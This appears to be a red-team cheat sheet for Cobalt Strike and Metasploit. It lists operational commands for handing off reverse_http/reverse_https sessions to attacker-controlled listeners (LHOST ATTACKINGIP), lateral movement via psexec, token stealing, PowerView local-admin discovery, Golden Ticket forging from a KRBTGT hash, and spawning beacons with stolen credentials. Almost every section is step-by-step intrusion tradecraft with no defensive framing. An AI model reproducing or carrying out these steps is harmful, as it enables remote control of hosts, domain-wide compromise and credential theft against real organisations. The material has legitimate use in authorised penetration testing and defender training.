 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

\(Spawn Beacon from Meterpreter\)

```
in Cobalt
setup a listener
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of Cobalt Strike Listenter]
set LPORT 80
set session 1
set DisablePayloadHandler True
exploit (-j)
```

Move a Cobalt beacon to Metasploit

\(Spawn Meterpreter from Beacon\)

```
in Metasploit
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST ATTACKINGIP
set LPORT 443
set ExitOnSession False
exploit (-j)

in Cobalt
setup a foreign listener
windows/foreign/reverse_https
Right Click Beacon-->Spawn-->Select foreign beacon

Note: Cobalt will spawn an x86 shell, for any post exploit modules make sure to migrate to an x64 process like svchost
if applicable
```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
or
Net computers
net dclist
```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon: Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

3) shell whoami /user to obtain SID (also provides 1 & 2)
4) obtained from a previous compromise (i.e. NTLM hashdump)

With that Right Click-->Access-->Golden Ticket-->Input Four fields-->Build

Verify it works: #shell dir \\[DC]\C$
```

Beacon as another user with creds

```
Right Click Beacon-->SpawnAs-->enter creds
note for domain account enter domain but for local account enter "." in the domain field
```



